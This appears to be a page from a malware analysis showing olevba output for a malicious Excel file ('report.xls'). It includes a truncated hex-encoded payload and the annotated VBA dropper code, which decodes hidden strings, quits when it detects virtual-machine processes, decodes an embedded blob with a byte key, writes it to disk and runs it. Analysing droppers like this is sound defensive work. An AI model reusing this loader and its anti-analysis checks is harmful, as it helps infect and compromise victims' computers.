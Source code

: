```
Tahoma
-------------------------------------------------------------------------------
VBA FORM STRING IN 'C:\\Users\\jack\\Desktop\\report.xls' - OLE stream: u'_VBA_PROJECT_CUR/F/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
H€,„p
-------------------------------------------------------------------------------
VBA FORM STRING IN 'C:\\Users\\jack\\Desktop\\report.xls' - OLE stream: u'_VBA_PROJECT_CUR/F/o'
58c7661f00634702555f664b7756884c864edc4fef2d9c48881bac0911082214334e424f552f661d7752ce41d54deb70e9468949892db745545270fc333c44aa5525634f772d88699970983b8b18fe1eed3aba1d584c7632017....

Function rigmarole(es As String) As String
    Dim furphy As String
    Dim c As Integer
    Dim s As String
    Dim cc As Integer
    furphy = ""
    For i = 1 To Len(es) Step 4
        c = CDec("&H" & Mid(es, i, 2))
        s = CDec("&H" & Mid(es, i + 2, 2))
        cc = c - s
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function

Function folderol()
    Dim wabbit() As Byte
    Dim fn As Integer: fn = FreeFile
    Dim onzo() As String
    Dim mf As String
    Dim xertz As Variant
    
    onzo = Split(F.L, ".")
    
    If GetInternetConnectedState = False Then
        MsgBox "Cannot establish Internet connection.", vbCritical, "Error"
        End
    End If

#### Comprueba los procesos abiertos
    Set fudgel = GetObject(rigmarole(onzo(7))) //System._ComObject
    Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48) //SELECT Name FROM Win32_Process
    For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
        If pos > 0 Then
            MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
            End
        End If
    Next
        
		
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ(rigmarole(onzo(0))) & rigmarole(onzo(1))
    Open mf For Binary Lock Read Write As #fn
      Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString(rigmarole(onzo(2)) & mf, 0&, 0, 0)
```